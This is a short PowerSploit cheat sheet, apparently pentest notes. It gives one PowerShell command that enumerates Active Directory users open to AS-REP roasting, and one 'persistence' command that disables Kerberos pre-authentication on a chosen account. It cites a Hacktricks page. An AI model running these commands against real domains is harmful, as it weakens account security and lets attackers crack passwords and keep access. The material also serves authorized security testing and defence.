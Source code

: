 # PowerSploit

## 01 - Enumerate ASREPRoast Users

```
PS C:\> Get-DomainUser -PreauthNotRequired -Verbose
```

## 02 - Persistence

```
PS C:\> Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```

---
## References

- [Hacktricks: Active Directory Methodology ASREPRoast](https://book.hacktricks.xyz/windows/active-directory-methodology/asreproast)
